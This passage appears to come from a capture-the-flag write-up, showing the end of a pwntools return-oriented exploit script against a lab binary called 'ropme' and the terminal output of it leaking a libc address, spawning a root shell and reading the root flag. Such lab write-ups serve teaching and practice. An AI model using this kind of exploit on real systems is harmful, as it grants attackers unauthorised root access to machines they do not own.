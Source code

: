 ```python
payload+= "AAAA"
payload+= pack(binsh)

io.sendline(payload)

io.interactive()
```

Once we use it with the correct settings, we will see this output in terminal.

```
python exploit.py
[*] '/Users/dpua/Downloads/ropme'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Connecting to 192.168.105.156 on port 22: Done
[*] shon@192.168.105.156:
    Distro    Ubuntu 12.04
    OS:       linux
    Arch:     i386
    Version:  3.13.0
    ASLR:     Enabled
[+] Opening new channel: 'pwd': Done
[+] Receiving all data: Done (11B)
[*] Closed SSH channel with 192.168.105.156
[*] Working directory: '/tmp/tmp.xJXsCtT2b8'
[+] Opening new channel: 'ln -s /home/shon/* .': Done
[+] Receiving all data: Done (0B)
[*] Closed SSH channel with 192.168.105.156
[+] Starting remote process '/usr/bin/ropme' on 192.168.105.156: pid 9718
[*] PUTS: 0xb7684830
[*] Switching to interactive mode
\xb6\x83\x0@tc\xb7�Oh\xb7
2 + 2 = ?
# $ whoami
root
# $ cat /root/root.txt
uad360{T0r0mb0l0R3turns1337}
# $
```

Finally we got the root flag.

`Root Flag: uad360{T0r0mb0l0R3turns1337}`
